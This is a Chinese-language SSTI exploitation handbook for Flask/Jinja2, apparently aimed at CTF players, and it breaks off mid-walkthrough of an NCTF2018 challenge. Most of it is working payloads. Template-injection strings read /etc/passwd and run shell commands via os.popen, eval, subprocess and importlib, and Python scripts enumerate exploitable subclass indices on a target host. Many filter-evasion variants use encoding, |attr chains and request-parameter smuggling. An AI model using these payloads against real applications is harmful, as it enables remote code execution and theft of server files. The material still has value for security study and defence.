Python安全 | Flask-jinja2 SSTI 利用手册
Flask-jinja2 SSTI 一般利用姿势
SSTI 中常用的魔术方法
很多刚开始学习SSTI的新手可能看到上面的利用方法就蒙圈了，不太懂为什么要这么做，下面来讲一下关于Python中类的知识。面向对象语言的方法来自于类，对于python，有很多好用的函数库，我们经常会再写Python中用到import来引入许多的类和方法，python的str(字符串)、dict(字典)、tuple(元组)、list(列表)这些在Python类结构的基类都是object，而object拥有众多的子类。
__class__：用来查看变量所属的类，根据前面的变量形式可以得到其所属的类。 __class__ 是类的一个内置属性，表示类的类型，返回 <type 'type'> ；也是类的实例的属性，表示实例对象的类。
>>> ''.__class__<type 'str'>>>> ().__class__<type 'tuple'>>>> [].__class__<type 'list'>>>> {}.__class__<type 'dict'>
__bases__：用来查看类的基类，也可以使用数组索引来查看特定位置的值。通过该属性可以查看该类的所有直接父类，该属性返回所有直接父类组成的元组（虽然只有一个元素）。注意是直接父类！！！
>>> ().__class__.__bases__(<type 'object'>,)>>> ''.__class__.__bases__(<type 'basestring'>,)>>> [].__class__.__bases__(<type 'object'>,)>>> {}.__class__.__bases__(<type 'object'>,)>>> ''.__class__.__bases__[0].__bases__[0] // python2下雨python3下不同<type 'object'>>>> [].__class__.__bases__[0]<type 'object'>
获取基类还能用 __mro__ 方法，__mro__ 方法可以用来获取一个类的调用顺序，比如：
>>> ''.__class__.__mro__ // python2下和python3下不同(<class 'str'>, <class 'object'>)>>> [].__class__.__mro__(<class 'list'>, <class 'object'>)>>> {}.__class__.__mro__(<class 'dict'>, <class 'object'>)>>> ().__class__.__mro__(<class 'tuple'>, <class 'object'>)>>> ().__class__.__mro__[1] // 返回的是一个类元组，使用索引就能获取基类了<class 'object'>
除此之外，我们还可以利用 __base__ 方法获取直接基类：
>>> "".__class__.__base__<type 'basestring'>
有这些类继承的方法，我们就可以从任何一个变量，回溯到最顶层基类（<class'object'>）中去，再获得到此基类所有实现的类，就可以获得到很多的类和方法了。
__subclasses__()：查看当前类的子类组成的列表，即返回基类object的子类。
>>> [].__class__.__bases__[0].__subclasses__()[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'file'>, <type 'PyCapsule'>, <type 'cell'>, <type 'callable-iterator'>, <type 'iterator'>, <type 'sys.long_info'>, <type 'sys.float_info'>, <type 'EncodingMap'>, <type 'fieldnameiterator'>, <type 'formatteriterator'>, <type 'sys.version_info'>, <type 'sys.flags'>, <type 'sys.getwindowsversion'>, <type 'exceptions.BaseException'>, <type 'module'>, <type 'imp.NullImporter'>, <type 'zipimport.zipimporter'>, <type 'nt.stat_result'>, <type 'nt.statvfs_result'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class '_abcoll.Hashable'>, <type 'classmethod'>, <class '_abcoll.Iterable'>, <class '_abcoll.Sized'>, <class '_abcoll.Container'>, <class '_abcoll.Callable'>, <type 'dict_keys'>, <type 'dict_items'>, <type 'dict_values'>, <class 'site._Printer'>, <class 'site._Helper'>, <type '_sre.SRE_Pattern'>, <type '_sre.SRE_Match'>, <type '_sre.SRE_Scanner'>, <class 'site.Quitter'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>, <type 'operator.itemgetter'>, <type 'operator.attrgetter'>, <type 'operator.methodcaller'>, <type 'functools.partial'>, <type 'MultibyteCodec'>, <type 'MultibyteIncrementalEncoder'>, <type 'MultibyteIncrementalDecoder'>, <type 'MultibyteStreamReader'>, <type 'MultibyteStreamWriter'>]
查阅起来有些困难，来列举一下：
for i in enumerate(''.__class__.__mro__[-1].__subclasses__()): print i.....(0, <type 'type'>)(1, <type 'weakref'>)(2, <type 'weakcallableproxy'>)(3, <type 'weakproxy'>)(4, <type 'int'>)(5, <type 'basestring'>)(6, <type 'bytearray'>)(7, <type 'list'>)(8, <type 'NoneType'>)(9, <type 'NotImplementedType'>)(10, <type 'traceback'>)(11, <type 'super'>)(12, <type 'xrange'>)(13, <type 'dict'>)(14, <type 'set'>)(15, <type 'slice'>)(16, <type 'staticmethod'>)(17, <type 'complex'>)(18, <type 'float'>)......(38, <type 'ellipsis'>)(39, <type 'member_descriptor'>)(40, <type 'file'>)(41, <type 'PyCapsule'>)(42, <type 'cell'>)(43, <type 'callable-iterator'>)......
注意：这里要记住一点2.7和3.6版本返回的子类不是一样的，但是2.7有的3.6大部分都有。
当然我们也可以直接用object.__subclasses__()，会得到和上面一样的结果。SSTI 的主要目的就是从这么多的子类中找出可以利用的类（一般是指读写文件或执行命令的类）加以利用。
__builtins__：以一个集合的形式查看其引用
内建函数
当我们启动一个python解释器时，即时没有创建任何变量或者函数，还是会有很多函数可以使用，我们称之为内建函数。
内建函数并不需要我们自己做定义，而是在启动python解释器的时候，就已经导入到内存中供我们使用，想要了解这里面的工作原理，我们可以从名称空间开始。
__builtins__方法是做为默认初始模块出现的，可用于查看当前所有导入的内建函数。
__globals__：该方法会以字典的形式返回当前位置的所有全局变量，与 func_globals 等价。该属性是函数特有的属性，记录当前文件全局变量的值，如果某个文件调用了os、sys等库，但我们只能访问该文件某个函数或者某个对象，那么我们就可以利用globals属性访问全局的变量。该属性保存的是函数全局变量的字典引用。
__import__()：该方法用于动态加载类和函数 。如果一个模块经常变化就可以使用 __import__() 来动态载入，就是 import。语法：__import__(模块名)
这样我们在进行SSTI注入的时候就可以通过这种方式使用很多的类和方法，通过子类再去获取子类的子类、更多的方法，找出可以利用的类和方法加以利用。总之，是通过python的对象的继承来一步步实现文件读取和命令执行的：
找到父类<type 'object'> ---> 寻找子类 ---> 找关于命令执行或者文件操作的模块。但是遇上一个SSTI的题，该如何下手？大体上有以下几种思路，简单介绍一下，后续有详细总结。
•查配置文件•命令执行（其实就是沙盒逃逸类题目的利用方式）•文件读取
利用 SSTI 读取文件
Python 2
在上文中我们使用 __subclasses__ 方法查看子类的时候，发现可以发现索引号为40指向file类：
for i in enumerate(''.__class__.__mro__[-1].__subclasses__()): print i.....(0, <type 'type'>)(1, <type 'weakref'>)(2, <type 'weakcallableproxy'>)(3, <type 'weakproxy'>)(4, <type 'int'>)(5, <type 'basestring'>)(6, <type 'bytearray'>)(7, <type 'list'>)(8, <type 'NoneType'>)(9, <type 'NotImplementedType'>)(10, <type 'traceback'>)(11, <type 'super'>)(12, <type 'xrange'>)(13, <type 'dict'>)(14, <type 'set'>)(15, <type 'slice'>)(16, <type 'staticmethod'>)(17, <type 'complex'>)(18, <type 'float'>)......(38, <type 'ellipsis'>)(39, <type 'member_descriptor'>)(40, <type 'file'>)(41, <type 'PyCapsule'>)(42, <type 'cell'>)(43, <type 'callable-iterator'>)......
此file类可以直接用来读取文件：
{{[].__class__.__base__.__subclasses__()[40]('/etc/passwd').read()}}Python 3
使用file类读取文件的方法仅限于Python 2环境，在Python 3环境中file类已经没有了。我们可以用<class '_frozen_importlib_external.FileLoader'> 这个类去读取文件。
首先编写脚本遍历目标Python环境中 <class '_frozen_importlib_external.FileLoader'> 这个类索引号：
import requestsheaders = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36'}for i in range(500):url = "http://47.xxx.xxx.72:8000/?name={{().__class__.__bases__[0].__subclasses__()["+str(i)+"]}}"res = requests.get(url=url, headers=headers)if 'FileLoader' in res.text:print(i)# 得到编号为79
所以payload如下：
{{().__class__.__bases__[0].__subclasses__()[79]["get_data"](0, "/etc/passwd")}}利用 SSTI 执行命令
可以用来执行命令的类有很多，其基本原理就是遍历含有eval函数即os模块的子类，利用这些子类中的eval函数即os模块执行命令。这里我们简单挑几个常用的讲解。
寻找内建函数 eval 执行命令
首先编写脚本遍历目标Python环境中含有内建函数 eval 的子类的索引号：
import requestsheaders = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36'}for i in range(500):url = "http://47.xxx.xxx.72:8000/?name={{().__class__.__bases__[0].__subclasses__()["+str(i)+"].__init__.__globals__['__builtins__']}}"res = requests.get(url=url, headers=headers)if 'eval' in res.text:print(i)# 得到一大堆子类的索引:646566676879808183919293949596117...
我们可以记下几个含有eval函数的类：
•warnings.catch_warnings•WarningMessage•codecs.IncrementalEncoder•codecs.IncrementalDecoder•codecs.StreamReaderWriter•os._wrap_close•reprlib.Repr•weakref.finalize•......
所以payload如下：
{{''.__class__.__bases__[0].__subclasses__()[166].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}我们可以看到，使用eval函数执行命令也是调用的os模块，那我们直接调用os模块不是更简单？
寻找 os 模块执行命令
Python的 os 模块中有system和popen这两个函数可用来执行命令。其中system()函数执行命令是没有回显的，我们可以使用system()函数配合curl外带数据；popen()函数执行命令有回显。所以比较常用的函数为popen()函数，而当popen()函数被过滤掉时，可以使用system()函数代替。
首先编写脚本遍历目标Python环境中含有os模块的类的索引号：
import requestsheaders = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36'}for i in range(500):url = "http://47.xxx.xxx.72:8000/?name={{().__class__.__bases__[0].__subclasses__()["+str(i)+"].__init__.__globals__}}"res = requests.get(url=url, headers=headers)if 'os.py' in res.text:print(i)# 可以得到一大堆类646566676879808183117147154161162163164...
随便挑一个类构造payload执行命令即可：
{{''.__class__.__bases__[0].__subclasses__()[79].__init__.__globals__['os'].popen('ls /').read()}}但是该方法遍历得到的类不准确，因为一些不相关的类名中也存在字符串 “os”，所以我们还要探索更有效的方法。
我们可以看到，即使是使用os模块执行命令，其也是调用的os模块中的popen函数，那我们也可以直接调用popen函数，存在popen函数的类一般是 os._wrap_close，但也不绝对。由于目标Python环境的不同，我们还需要遍历一下。
寻找 popen 函数执行命令
首先编写脚本遍历目标Python环境中含有 popen 函数的类的索引号：
import requestsheaders = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36'}for i in range(500):url = "http://47.xxx.xxx.72:8000/?name={{().__class__.__bases__[0].__subclasses__()["+str(i)+"].__init__.__globals__}}"res = requests.get(url=url, headers=headers)if 'popen' in res.text:print(i)# 得到编号为117
直接构造payload即可：
{{''.__class__.__bases__[0].__subclasses__()[117].__init__.__globals__['popen']('ls /').read()}}这样得到的索引还是很准确的。
除了这种方法外，我们还可以直接导入os模块，python有一个importlib类，可用load_module来导入你需要的模块。
寻找 importlib 类执行命令
Python 中存在 <class '_frozen_importlib.BuiltinImporter'> 类，目的就是提供 Python 中 import 语句的实现（以及 __import__ 函数）。我么可以直接利用该类中的load_module将os模块导入，从而使用 os 模块执行命令。
首先编写脚本遍历目标Python环境中 importlib 类的索引号：
import requestsheaders = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36'}for i in range(500):url = "http://47.xxx.xxx.72:8000/?name={{().__class__.__bases__[0].__subclasses__()["+str(i)+"]}}"res = requests.get(url=url, headers=headers)if '_frozen_importlib.BuiltinImporter' in res.text:print(i)# 得到编号为69
构造如下payload即可执行命令：
{{[].__class__.__base__.__subclasses__()[69]["load_module"]("os")["popen"]("ls /").read()}}寻找 linecache 函数执行命令
linecache 这个函数可用于读取任意一个文件的某一行，而这个函数中也引入了 os 模块，所以我们也可以利用这个 linecache 函数去执行命令。
首先编写脚本遍历目标Python环境中含有 linecache 这个函数的子类的索引号：
import requestsheaders = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36'}for i in range(500):url = "http://47.xxx.xxx.72:8000/?name={{().__class__.__bases__[0].__subclasses__()["+str(i)+"].__init__.__globals__}}"res = requests.get(url=url, headers=headers)if 'linecache' in res.text:print(i)# 得到一堆子类的索引:168169203206207208...
随便挑一个子类构造payload即可：
{{[].__class__.__base__.__subclasses__()[168].__init__.__globals__['linecache']['os'].popen('ls /').read()}}{{[].__class__.__base__.__subclasses__()[168].__init__.__globals__.linecache.os.popen('ls /').read()}}
寻找 subprocess.Popen 类执行命令
从python2.4版本开始，可以用 subprocess 这个模块来产生子进程，并连接到子进程的标准输入/输出/错误中去，还可以得到子进程的返回值。
subprocess 意在替代其他几个老的模块或者函数，比如：os.system、os.popen 等函数。
首先编写脚本遍历目标Python环境中含有 linecache 这个函数的子类的索引号：
import requestsheaders = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36'}for i in range(500):url = "http://47.xxx.xxx.72:8000/?name={{().__class__.__bases__[0].__subclasses__()["+str(i)+"]}}"res = requests.get(url=url, headers=headers)if 'linecache' in res.text:print(i)# 得到索引为245
则构造如下payload执行命令即可：
{{[].__class__.__base__.__subclasses__()[245]('ls /',shell=True,stdout=-1).communicate()[0].strip()}}# {{[].__class__.__base__.__subclasses__()[245]('要执行的命令',shell=True,stdout=-1).communicate()[0].strip()}}
Flask-jinja2 SSTI Bypass姿势
关键字绕过
利用字符串拼接绕过
我们可以利用“+”进行字符串拼接，绕过关键字过滤，例如：
{{().__class__.__bases__[0].__subclasses__()[40]('/fl'+'ag').read()}}{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("o"+"s").popen("ls /").read()')}}{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__buil'+'tins__']['eval']('__import__("os").popen("ls /").read()')}}
只要返回的是字典类型的或是字符串格式的，即payload中引号内的，在调用的时候都可以使用字符串拼接绕过。
利用编码绕过
我们可以利用对关键字编码的方法，绕过关键字过滤，例如用base64编码绕过：
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['X19idWlsdGluc19f'.decode('base64')]['ZXZhbA=='.decode('base64')]('X19pbXBvcnRfXygib3MiKS5wb3BlbigibHMgLyIpLnJlYWQoKQ=='.decode('base64'))}}等同于：
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}可以看到，在payload中，只要是字符串的，即payload中引号内的，都可以用编码绕过。同理还可以进行rot13、16进制编码等。
利用Unicode编码绕过关键字（flask适用）
unicode编码绕过是一种网上没提出的方法。
我们可以利用unicode编码的方法，绕过关键字过滤，例如：
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['\u005f\u005f\u0062\u0075\u0069\u006c\u0074\u0069\u006e\u0073\u005f\u005f']['\u0065\u0076\u0061\u006c']('__import__("os").popen("ls /").read()')}}{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['\u006f\u0073'].popen('\u006c\u0073\u0020\u002f').read()}}
等同于：
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
利用Hex编码绕过关键字
和上面那个一样，只不过将Unicode编码换成了Hex编码，适用于过滤了“u”的情况。
我们可以利用hex编码的方法，绕过关键字过滤，例如：
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f']['\x65\x76\x61\x6c']('__import__("os").popen("ls /").read()')}}{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['\x6f\x73'].popen('\x6c\x73\x20\x2f').read()}}
等同于：
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
利用引号绕过
我们可以利用引号来绕过对关键字的过滤。例如，过滤了flag，那么我们可以用 fl""ag 或 fl''ag 的形式来绕过：
[].__class__.__base__.__subclasses__()[40]("/fl""ag").read() 再如：
().__class__.__base__.__subclasses__()[77].__init__.__globals__['o''s'].popen('ls').read(){{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__buil''tins__']['eval']('__import__("os").popen("ls /").read()')}}
可以看到，在payload中，只要是字符串的，即payload中引号内的，都可以用引号绕过。
利用join()函数绕过
我们可以利用join()函数来绕过关键字过滤。例如，题目过滤了flag，那么我们可以用如下方法绕过：
[].__class__.__base__.__subclasses__()[40]("fla".join("/g")).read() 绕过其他字符
过滤了中括号[ ]
利用 __getitem__() 绕过
可以使用 __getitem__() 方法输出序列属性中的某个索引处的元素，如：
"".__class__.__mro__[2]"".__class__.__mro__.__getitem__(2)['__builtins__'].__getitem__('eval')
如下示例：
{{''.__class__.__mro__.__getitem__(2).__subclasses__().__getitem__(40)('/etc/passwd').read()}} // 指定序列属性{{().__class__.__bases__.__getitem__(0).__subclasses__().__getitem__(59).__init__.__globals__.__getitem__('__builtins__').__getitem__('eval')('__import__("os").popen("ls /").read()')}} // 指定字典属性
利用 pop() 绕过
pop()方法可以返回指定序列属性中的某个索引处的元素或指定字典属性中某个键对应的值，如下示例：
{{''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/etc/passwd').read()}} // 指定序列属性{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.__globals__.pop('__builtins__').pop('eval')('__import__("os").popen("ls /").read()')}} // 指定字典属性
注意：最好不要用pop()，因为pop()会删除相应位置的值。
利用字典读取绕过
我们知道访问字典里的值有两种方法，一种是把相应的键放入熟悉的方括号 [] 里来访问，一种就是用点 . 来访问。所以，当方括号 [] 被过滤之后，我们还可以用点 . 的方式来访问，如下示例
// __builtins__.eval(){{().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.__globals__.__builtins__.eval('__import__("os").popen("ls /").read()')}}
等同于：
// [__builtins__]['eval'](){{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}
过滤了引号
利用chr()绕过
先获取chr()函数，赋值给chr，后面再拼接成一个字符串
{% set chr=().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.chr%}{{().__class__.__bases__.[0].__subclasses__().pop(40)(chr(47)+chr(101)+chr(116)+chr(99)+chr(47)+chr(112)+chr(97)+chr(115)+chr(115)+chr(119)+chr(100)).read()}}# {% set chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr%}{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(chr(47)+chr(101)+chr(116)+chr(99)+chr(47)+chr(112)+chr(97)+chr(115)+chr(115)+chr(119)+chr(100)).read()}}
等同于
{{().__class__.__bases__[0].__subclasses__().pop(40)('/etc/passwd').read()}}利用request对象绕过
示例：
{{().__class__.__bases__[0].__subclasses__().pop(40)(request.args.path).read()}}&path=/etc/passwd{{().__class__.__base__.__subclasses__()[77].__init__.__globals__[request.args.os].popen(request.args.cmd).read()}}&os=os&cmd=ls /
等同于：
{{().__class__.__bases__[0].__subclasses__().pop(40)('/etc/passwd').read()}}{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
如果过滤了args，可以将其中的request.args改为request.values，POST和GET两种方法传递的数据request.values都可以接收。
过滤了下划线__
利用request对象绕过
{{()[request.args.class][request.args.bases][0][request.args.subclasses]()[40]('/flag').read()}}&class=__class__&bases=__bases__&subclasses=__subclasses__{{()[request.args.class][request.args.bases][0][request.args.subclasses]()[77].__init__.__globals__['os'].popen('ls /').read()}}&class=__class__&bases=__bases__&subclasses=__subclasses__
等同于：
{{().__class__.__bases__[0].__subclasses__().pop(40)('/etc/passwd').read()}}{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
过滤了点 .
利用 |attr() 绕过（适用于flask）
如果 . 也被过滤，且目标是JinJa2（flask）的话，可以使用原生JinJa2函数attr()，即：
().__class__ => ()|attr("__class__")示例：
{{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(77)|attr("__init__")|attr("__globals__")|attr("__getitem__")("os")|attr("popen")("ls /")|attr("read")()}}等同于：
{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}利用中括号[ ]绕过
如下示例：
{{''['__class__']['__bases__'][0]['__subclasses__']()[59]['__init__']['__globals__']['__builtins__']['eval']('__import__("os").popen("ls").read()')}}等同于：
{{().__class__.__bases__.[0].__subclasses__().[59].__init__['__globals__']['__builtins__'].eval('__import__("os").popen("ls /").read()')}}这样的话，那么 __class__、__bases__ 等关键字就成了字符串，就都可以用前面所讲的关键字绕过的姿势进行绕过了。
过滤了大括号 {{
我们可以用Jinja2的 {%...%} 语句装载一个循环控制语句来绕过：
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('ls /').read()")}}{% endif %}{% endfor %}也可以使用 {% if ... %}1{% endif %} 配合 os.popen 和 curl 将执行结果外带（不外带的话无回显）出来：
{% if ''.__class__.__base__.__subclasses__()[59].__init__.func_globals.linecache.os.popen('ls /' %}1{% endif %}也可以用 {%print(......)%} 的形式来代替 {{ ，如下：
{%print(''.__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls').read())%}利用 |attr() 来Bypass
这里说一个新东西，就是原生JinJa2函数 attr()，这是一个 attr() 过滤器，它只查找属性，获取并返回对象的属性的值，过滤器与变量用管道符号（ | ）分割。如：
foo|attr("bar") 等同于 foo["bar"]|attr() 配合其他姿势可同时绕过双下划线 __ 、引号、点 . 和 [ 等，下面给出示例。
同时过滤了 . 和 []
过滤了以下字符：
. [绕过姿势：
{{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(77)|attr("__init__")|attr("__globals__")|attr("__getitem__")("os")|attr("popen")("ls")|attr("read")()}}等同于：
{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls').read()}}同时过滤了 __ 、点. 和 []
过滤了以下字符：
__ . [ "下面我们演示绕过姿势，先写出payload的原型：
{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}由于中括号 [ 被过滤了，我们可以用 __getitem__() 来绕过（尽量不要用pop()），类似如下：
{{().__class__.__base__.__subclasses__().__getitem__(77).__init__.__globals__.__getitem__('__builtins__').__getitem__('eval')('__import__("os").popen("ls /").read()')}}由于还过滤了下划线 __，我们可以用request对象绕过，但是还过滤了中括号 []，所以我们要同时绕过 __ 和 [，就用到了我们的|attr()
所以最终的payload如下：
{{()|attr(request.args.x1)|attr(request.args.x2)|attr(request.args.x3)()|attr(request.args.x4)(77)|attr(request.args.x5)|attr(request.args.x6)|attr(request.args.x4)(request.args.x7)|attr(request.args.x4)(request.args.x8)(request.args.x9)}}&x1=__class__&x2=__base__&x3=__subclasses__&x4=__getitem__&x5=__init__&x6=__globals__&x7=__builtins__&x8=eval&x9=__import__("os").popen('ls /').read()用Unicode编码配合 |attr() 进行Bypass
过滤了以下字符：
' request {{ _ %20(空格) [ ] . __globals__ __getitem__我们用 {%...%}绕过对 {{ 的过滤，并用unicode绕过对关键字的过滤。unicode绕过是一种网上没提出的方法。
假设我们要构造的payload原型为：
{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls').read()}}先用 |attr 绕过 . 和 []：
{{()|attr("__class__")|attr("__base__")|attr("__subclasses__")()|attr("__getitem__")(77)|attr("__init__")|attr("__globals__")|attr("__getitem__")("os")|attr("popen")("ls")|attr("read")()}}我们可以将过滤掉的字符用unicode替换掉：
{{()|attr("\u005f\u005f\u0063\u006c\u0061\u0073\u0073\u005f\u005f")|attr("\u005f\u005f\u0062\u0061\u0073\u0065\u005f\u005f")|attr("\u005f\u005f\u0073\u0075\u0062\u0063\u006c\u0061\u0073\u0073\u0065\u0073\u005f\u005f")()|attr("\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f")(77)|attr("\u005f\u005f\u0069\u006e\u0069\u0074\u005f\u005f")|attr("\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f")|attr("\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f")("os")|attr("popen")("ls")|attr("read")()}}用Hex编码配合 |attr() 进行Bypass
和上面那个一样，只不过是将Unicode编码换成了Hex编码，适用于“u”被过滤了的情况。
我们可以将过滤掉的字符用Hex编码替换掉：
{{()|attr("\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f")|attr("\x5f\x5f\x62\x61\x73\x65\x5f\x5f")|attr("\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f")()|attr("\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f")(258)|attr("\x5f\x5f\x69\x6e\x69\x74\x5f\x5f")|attr("\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f")|attr("\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f")("os")|attr("popen")("cat\x20\x66\x6c\x61\x67\x2e\x74\x78\x74")|attr("read")()}}过滤了request和class
这里除了用上面中括号或 |attr() 那几种方法外，我们还可以利用flask里面的session对象和config对象来逃逸这一姿势。
下面通过NCTF2018的两道flask题目来仔细讲解。
[NCTF2018]flask真香
打开题目一看，是一个炫酷的demo演示，这种demo一般是没有啥东西好挖的。首先F12信息收集，发现Python版本是3.5.2，没有Web静态服务器。

随便点开第二个demo发现404了，这里注意到404界面是Flask提供的404界面，按照以往的经验，猜测这里存在SSTI注入。
先尝试简单的payload：


从这里可见，毫无疑问的存在SSTI漏洞了。
那么就来康康到底有没有WAF，有的话被过滤了哪些。经过一番测试，确实很多东西都被过滤了，而且是正则表达式直接匹配删去，无法嵌套绕过。不完整测试有以下：
configclassmroargsrequestopenevalbuiltinsimport
从这里来看，似乎已经完全无法下手了。因为request和class都被过滤掉了。
卡在这里以后，最好的办法就是去查Flask官方文档了。从Flask官方文档里，找到了session对象，经过测试没有被过滤。更巧的是，session一定是一个dict对象，因此我们可以通过键的方法访问相应的类。由于键是一个字符串，因此可以通过字符串拼接绕过。
python：
